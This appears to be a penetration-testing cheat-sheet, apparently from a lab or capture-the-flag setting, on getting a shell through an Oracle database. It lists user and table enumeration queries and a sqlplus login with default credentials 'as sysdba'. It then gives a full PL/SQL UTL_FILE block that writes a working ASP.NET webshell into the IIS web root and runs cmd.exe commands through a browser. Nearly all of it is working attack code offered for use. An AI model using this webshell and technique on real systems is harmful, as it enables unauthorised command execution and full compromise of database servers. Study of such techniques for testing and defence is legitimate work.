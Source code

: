 **oracle commands:**
* show users: ```SQL> SELECT USERNAME FROM ALL_USERS ORDER BY USERNAME;```
* show tables: ``` SELECT owner, table_name FROM all_tables;```

## get reverse shell from oracle command line
* connect to oracle DB. make sure to use 'as sysdba' if possible!
```
sqlplus scott/tiger@10.10.10.82/XE 'as sysdba';
```
* oracle command line allows to write file. see [here](http://psoug.org/snippet/UTL_FILE-file-write-to-file-example_538.htm?)
* run the following 'query' to upload an aspx webshell
```
declare
  filehandler UTL_FILE.FILE_TYPE;
begin
  filehandler := UTL_FILE.FOPEN('C:/inetpub/wwwroot', 'mfu.aspx', 'W');
  UTL_FILE.PUTF(filehandler, '<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>
');
  UTL_FILE.FCLOSE(filehandler);
end;     
```
* now browse to http://10.10.10.82/mfu.aspx and run commands